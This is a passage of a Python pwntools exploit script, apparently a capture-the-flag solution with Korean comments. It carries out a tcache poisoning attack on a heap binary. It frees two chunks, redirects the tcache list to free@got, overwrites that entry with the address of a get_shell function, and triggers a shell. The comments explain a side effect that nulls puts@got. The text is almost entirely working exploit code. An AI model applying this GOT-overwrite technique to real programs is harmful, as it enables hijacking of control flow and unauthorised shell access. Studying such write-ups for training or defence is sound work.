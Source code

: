 ```py
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> free@got
# tc_idx = 2
# chunk : ptr[1]
free_got = elf.got['free']
modify(1, 0x10, p64(free_got))


# tcache[0x20] : free@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 free@got를 할당할 때, [free@got + 0x8]에 위치하는 puts@got의 값이 NULL(0x00)으로 바뀜
# 사실 puts가 해당 바이너리에서 쓰이지 않지만, gdb를 통해서 확인해보면, `printf`에 포맷 스트링이 아닌 문자열만 쓰이는 경우 최적화를 통해 puts가 호출되는 경우가 있음
# 따라서 여기서 puts@got가 바뀌면, puts로 바뀐 printf 들이 출력이 안되서, `recvafter`에서 무한대기해서 아래로 못내려감

delete(0)

p.interactive()
```
